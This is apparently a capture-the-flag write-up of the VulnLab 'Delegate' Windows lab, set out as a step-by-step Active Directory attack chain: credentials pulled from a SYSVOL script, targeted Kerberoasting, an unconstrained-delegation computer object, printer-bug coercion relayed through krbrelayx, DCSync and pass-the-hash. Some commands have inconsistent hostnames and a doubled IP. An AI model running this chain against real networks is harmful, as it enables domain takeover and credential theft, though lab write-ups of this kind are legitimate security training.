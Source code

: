 ```yaml
---
title: VulnLab -- Delegate Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Delegation,Unconstrained Delegaton,Kerberosting,Targeted Kerberosting]
image:
    path: images/delegate-banner.png
---
```

# Delegate

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Delegate** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/delegate-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 47001,49674,49664,464,49686,135,53,593,64282,3268,49666,3389,49675,49669,3269,389,5985,64313,49690 --min-rate=1000 10.10.78.6510.10.78.65
```

![image.png](../images/delegate.png)

Now let’s enumerate the shares

```bash
nxc smb delegate.vl -u 'guest' -p '' --shares
```

![image.png](../images/delegate%201.png)

> Notice that we have read access to the SYSVOL
> 

So let’s connect to the share

```bash

smbclient \\\\delegate.vl\\SYSVOL -U "delegate.vl\guest"
```

![image.png](../images/delegate%202.png)

So let’s go and see the scripts that may be running

```bash
cd delegate.vl/scripts
```

![image.png](../images/delegate%203.png)

As we see there is a file named users.bat so let’s download it

```bash
get users.bat
```

![image.png](../images/delegate%204.png)

Let’s see the users.bat content

```bash
cat users.bat
```

![image.png](../images/delegate%205.png)

> Notice that we found hardcoded credentials 
username: A.Briggs
password: P4ssw0rd1#123
> 

So let’s go and test those creds

```bash
nxc smb delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123'
```

![image.png](../images/delegate%206.png)

As we see the credentials are working

Let’s get a bloodhound

```bash
bloodhound-python -ns 10.10.78.65 -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' -c all --zip
```

![image.png](../images/delegate%207.png)

Now let’s open it and see if we have any permissions 

![image.png](../images/delegate%208.png)

> Notice that we have GenericWrite on another
> 

Now let’s abuse the targeted kerberosting

```bash
python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --dc-ip 10.10.78.65
```

![image.png](../images/delegate%209.png)

Now let’s try to crack it’s hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/delegate%2010.png)

> As we see we got the password for the user N.Thompson
username: N.Thompson
password: KALEB_2341
> 

Now let’s see the new user permissions

![image.png](../images/delegate%2011.png)

> Notice that the user is in a group named Delegation Admins
> 

Now let’s go and create new computer object

```bash
impacket-addcomputer -computer-name 'remo$' -computer-pass '123456' -dc-ip 10.10.78.65 deledation.vl/A.Briggs:'P4ssw0rd1#123'
```

![image.png](../images/delegate%2012.png)

Now let’s add spn to the machine

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/remoone.delegate.vl' -t 'remoone$' -dc-ip 10.10.78.65 dc1.delegate.vl --additional
```

Now let’s add delegation for the machine

```bash
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'dc1.delegate.vl' add uac 'remoone$' -f TRUSTED_FOR_DELEGATION
```

![image.png](../images/delegate%2013.png)

Now let’s open the krbrelayx

```bash
python3 krbrelayx.py -smb2support -hashes :32ED87BDB5FDC5E9CBA88547376818D4
```

![image.png](../images/delegate%2014.png)

Now let’s add dns entry for in the domain

```bash
python3 dnstool.py -u 'delegate.vl\remoone$' -p 123456 -r remoone.delegate.vl -d 10.8.5.233 --action add dc1.delegate.vl -dns-ip 10.10.78.65
```

![image.png](../images/delegate%2015.png)

Now let’s start relaying 

```bash
python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl
```

![image.png](../images/delegate%2016.png)

Now let’s see if we got a ticket

![image.png](../images/delegate%2017.png)

Now let’s go and export the ticket

```bash
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
```

![image.png](../images/delegate%2018.png)

now let’s perform DCSync to get administrator hash

```bash
impacket-secretsdump -k -no-pass dc1.delegate.vl
```

![image.png](../images/delegate%2019.png)

Now let’s go and winrm to the machine

```bash
evil-winrm -i delegate.vl -u administrator -H c32198ceab4cc695e65045562aa3ee93
```

![image.png](../images/delegate%2020.png)

Now let’s go and navigate to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/delegate%2021.png)

Amazing we got the root flag 🥳

![image.png](../images/delegate%2022.png)

That’s it for the **Delegate** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT